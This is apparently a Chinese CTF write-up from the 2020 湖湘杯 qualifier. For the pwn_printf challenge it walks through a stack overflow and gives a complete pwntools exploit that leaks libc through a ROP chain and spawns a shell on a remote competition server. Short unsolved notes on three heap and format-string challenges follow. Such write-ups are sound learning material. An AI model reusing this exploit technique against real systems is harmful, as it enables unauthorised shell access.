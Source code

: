```yaml
---
title: 湖湘杯-初赛
date: 2020-11-08 21:47:16
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/huxiang.jpg
---
```


第一次打这种比赛（应该算是省赛，heap真是一点也不会

<!-- more -->

# pwn_printf

`stack overflow`+`ROPgadget`

```c
  puts("What the f**k printf?\n");
  puts("Try to input something");
  puts("You will find this game very interesting");
  for ( i = 0; i <= 15; ++i )
  {
    v3 = (char *)dest + 8 * i + 57344;
    __isoc99_scanf("%d", v3);
  }
  v17 = 0;
  while ( (char *)dest + 65534 != format )
  {
    v3 = format;
    sprintf(
      (char *)0x6000000,
      format,
      &v14,
      0LL,
      &format,
      100663296LL,
      *v13,
      v13,
      &v13,
      v12,
      &v12,
      v11,
      &v11,
      v10,
      &v10,
      v9,
      &v9,
      v8,
      &v8,
      v7,
      &v7,
      v6,
      &v6,
      v5,
      &v5);
    ++v17;
  }
  if ( *v13 <= 0x20u )
    sub_4007C6(*v13, v3);
  else
    puts("Please try again and you will get it");
  puts("Sorry you are out");
  return 0LL;
```

程序没贴全，之前是一大段的memcpy向0x40000000的位置写入一大段的格式化字符串，之后调用了sprintf进行赋值。

直接试了一下，给它16个0x20，结果发现v13正好被赋值为0x20，进入栈溢出的函数。之后是直接进行rop构造。

进行第二次攻击的时候发现payload写不进去，调试了一下发现重新调用这个函数时，rax被赋值为了0x1。

查看汇编代码：

```assembly
.text:00000000004007CE                 mov     eax, edi
.text:00000000004007D0                 mov     [rbp+var_4], ax
.text:00000000004007D4                 movzx   eax, [rbp+var_4]
.text:00000000004007D8                 add     eax, eax
.text:00000000004007DA                 cdqe
.text:00000000004007DC                 mov     rdx, rax        ; nbytes
.text:00000000004007DF                 mov     rsi, rbp        ; buf
.text:00000000004007E2                 mov     edi, 0          ; fd
.text:00000000004007E7                 call    _read
```

rax的值来自rdi，所以我在栈上又写了一个0x20，当作rax的值，调用pwn_addr之前pop rdi。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	p=process('./pwn')
	elf = ELF('./pwn')
else:
	p=remote('47.111.96.55',53806)
	elf = ELF('./pwn')
for i in range(16):
	p.sendline('32')
pwn_addr=0x4007C6
puts_plt=elf.plt['puts']
read_got=elf.got['read']
puts_got=elf.got["puts"]
pop_rdi=0x0000000000401213
#gdb.attach(p)
payload='aaaaaaaa'+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(pop_rdi)+p64(0x20)+p64(pwn_addr)
p.sendline(payload)
p.recvuntil("interesting")
p.recvline()
addr=u64(p.recv(6).ljust(8, '\x00'))
print hex(addr)
#gdb.attach(p)
libcbase=addr-0x0f7310
system=libcbase+0x0453a0
bin_sh=libcbase+0x18ce17
payload='aaaaaaaa'+p64(pop_rdi)+p64(bin_sh)+p64(system)+p64(pwn_addr)
p.sendline(payload)

p.interactive()
```

# blend_pwn

这题当时没做出来,所以先把当时的分析贴一下，解析之后补，在此之前我不会看wp的（咕咕咕

只能申请两个堆块（大小0x60
格式化字符串漏洞
202090放入指针
666---->gift()：c++的异常处理函数？？？

通过格式化字符串泄露栈上的地址，同时得到了偏移，基址
修改fd指针得到栈上的空间？？
第11个参数是libc_main+240的地址

# only_add

这个当时我也看了一下，有一个明显的off-by-one漏洞，就是不知道怎么利用，heap真是，能看懂程序在做什么，就是不会利用



# babyheap

功能齐全，什么都有，可惜不会

咕了